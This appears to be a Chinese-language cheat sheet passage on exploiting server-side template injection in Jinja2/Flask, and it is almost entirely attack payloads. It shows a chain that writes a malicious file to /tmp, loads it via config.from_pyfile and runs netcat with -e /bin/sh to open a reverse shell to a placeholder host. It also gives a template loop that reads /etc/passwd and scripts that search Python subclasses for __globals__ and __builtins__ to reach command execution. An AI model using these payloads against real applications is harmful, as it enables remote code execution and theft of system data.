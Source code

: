 ```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
//执行命令反弹SHELL
```

使用file类读取文件

```Python
for c in {}.__class__.__base__.__subclasses__():
    if(c.__name__=='file'):
        print(c)
        print c('joker.txt').readlines()
封装一下：
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='file' %}
{{ c("/etc/passwd").readlines() }}
{% endif %}
{% endfor %}
```

使用内置模块进行命令执行

`__globals__`查看内置的对象可以调用的方法

```python
#coding:utf-8
search = 'current_app'   #也可以是其他你想利用的模块
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():#对存放该函数中全局变量的字典的引用 — 函数所属模块的全局命名空间。故可以直接调用
            print(i, num)
    except:
        pass 
```

这时候就要推`荐__builtins__`：

```python
#coding:utf-8

search = '__builtins__'
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        print(i.__init__.__globals__.keys())
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
```
